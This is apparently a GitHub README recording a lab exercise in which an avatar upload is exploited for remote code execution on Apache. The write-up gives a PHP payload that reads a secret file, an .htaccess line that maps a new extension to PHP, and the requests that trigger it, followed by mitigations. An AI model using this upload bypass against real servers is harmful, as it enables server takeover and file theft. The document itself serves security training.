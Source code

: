 # 🛡️ File Upload Exploitation – Apache .htaccess Bypass

This project documents a successful file upload exploitation against a simulated vulnerable web application.  
The lab demonstrates how weak file upload validation can be bypassed to achieve **remote code execution (RCE)** using an `.htaccess` trick on an Apache server.

---

## 📖 Lab Overview
- **Target:** Web application with avatar upload functionality  
- **Vulnerability:** File upload restrictions + Apache `.htaccess` misconfiguration  
- **Impact:** Remote Code Execution → Secret file disclosure  

---

## ⚙️ Exploitation Walkthrough

### 1. Normal File Upload
- Logged in and uploaded an image as the avatar.  
- Observed the image was fetched with:
  ```http
  GET /files/avatars/<YOUR-IMAGE>
````

### 2. Crafting Malicious Payload

Created a PHP file `exploit.php` to read Carlos’s secret:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

* Attempt to upload failed → `.php` extension not allowed.

### 3. Identifying Server

The response from `POST /my-account/avatar` revealed:

```
Server: Apache/2.4.41 (Ubuntu)
```

* Apache + mod\_php hinted at an `.htaccess` bypass.

### 4. Uploading `.htaccess`

Modified the upload request in Burp Repeater:

* Changed filename → `.htaccess`
* Content-Type → `text/plain`
* File contents:

  ```
  AddType application/x-httpd-php .l33t
  ```
* Uploaded successfully ✅

### 5. Uploading Exploit with New Extension

Reused upload request:

* Changed filename → `exploit.l33t`
* File contents → PHP payload
* Uploaded successfully ✅

### 6. Triggering RCE

Requested:

```http
GET /files/avatars/exploit.l33t
```

Server executed PHP → Secret was disclosed:

```
FxPam6dKbign7PBPqaNxPRZ76HsNCXr3
```

---

## 🚨 Security Impact

* **Severity:** 🔴 High
* **Risk:** Arbitrary PHP execution on the server
* **Impact:** Unauthorized file disclosure, possible full system compromise

### 🔒 Recommended Mitigations

* Disable `.htaccess` overrides:

  ```apache
  AllowOverride None
  ```
* Store uploads outside web root
* Strict MIME-type & extension validation (both client + server)
* Sanitize uploaded content before saving

---

## ✅ Proof of Exploit

<img width="957" height="1079" alt="image" src="https://github.com/user-attachments/assets/f15c03db-3747-4761-9709-d0349b92cd41" />

---

## 🗝️ Secret Obtained

```
FxPam6dKbign7PBPqaNxPRZ76HsNCXr3
```

---

## 📚 Takeaways

This lab highlights how **misconfigured servers + weak upload validation** can escalate into RCE.
Preventing such attacks requires **defense-in-depth**: secure configs, strict validation, and isolating user uploads.

---

```
